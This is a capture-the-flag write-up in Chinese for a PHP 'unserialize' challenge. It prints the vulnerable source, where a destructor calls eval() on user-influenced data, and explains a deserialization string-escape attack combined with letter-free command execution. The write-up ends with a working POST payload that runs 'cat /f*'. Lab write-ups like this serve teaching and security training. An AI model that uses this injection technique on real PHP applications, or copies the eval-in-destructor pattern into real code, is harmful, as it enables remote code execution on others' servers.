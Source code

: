# Web
## unserialize

`www.zip`获取源码
index.php
```php
<?php  
include_once "my.php";  
include_once "function.php";  
include_once "login.html";  
session_start();  
  
if (isset($_POST['root']) && isset($_POST['pwd'])) {  
   $root = $_POST['root'];  
   $pwd = $_POST['pwd'];  
   $login = new push_it($root, $pwd);  
   $_SESSION['login'] = b(serialize($login));  
   die('<script>location.href=`./login.php`;</script>');  
}  
  
  
  
?>
```

my.php
```php
<?php  
  
class pull_it {  
   private $x;  
  
   function __construct($xx) {  
      $this->x = $xx;  
   }  
  
   function __destruct() {  
      if ($this->x) {  
         $preg_match = 'return preg_match("/[A-Za-z0-9]+/i", $this->x);';  
      if (eval($preg_match)) {  
         echo $preg_match;  
         exit("save_waf");  
      }  
      @eval($this->x);  
      }  
   }  }  
class push_it {  
   private $root;  
   private $pwd;  
  
   function __construct($root, $pwd) {  
      $this->root = $root;  
      $this->pwd = $pwd;  
   }  
   function __destruct() {  
      unset($this->root);  
      unset($this->pwd);  
   }  
  
   function __toString() {  
      if (isset($this->root) && isset($this->pwd)) {  
         echo "<h1>Hello, $this->root</h1>";  
      }  
      else {  
         echo "<h1>out!</h1>";  
      }  
   }  
  
  
}  
  
  
  
?>
```

function.php
```php
<?php  
function b($data) {  
   return str_replace('aaaa', 'bbbbbb', $data);  
}  
  
function a($data) {  
   return str_replace('bbbbbb', 'aaaa', $data);  
}  
?>
```


就是无数字字母rce加上反序列化字符串逃逸

index.php中生成的$login 的格式是 `O:7:"push_it":2:{s:13:"push_itroot";s:4:"root";s:12:"push_itpwd";s:3:"pwd";}`

在后面会将 bbbbb转化为aaaa 6-> 4 因此每有一组bbbbbb 就可以逃逸两个字符
这里使用取反来构造
逃逸的部分是root的名字到密码前 28个字符 需要84个b


```php
urlencode("\";s:12:\"\000push_it\000pwd\";".serialize(new pull_it('(~'.~'system'.")(~".~"cat /f*".");")));
```

payload

```
root=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb&pwd=%22%3Bs%3A12%3A%22%00push_it%00pwd%22%3BO%3A7%3A%22pull_it%22%3A1%3A%7Bs%3A10%3A%22%00pull_it%00x%22%3Bs%3A20%3A%22%28%7E%8C%86%8C%8B%9A%92%29%28%7E%9C%9E%8B%DF%D0%99%D5%29%3B%22%3B%7D
```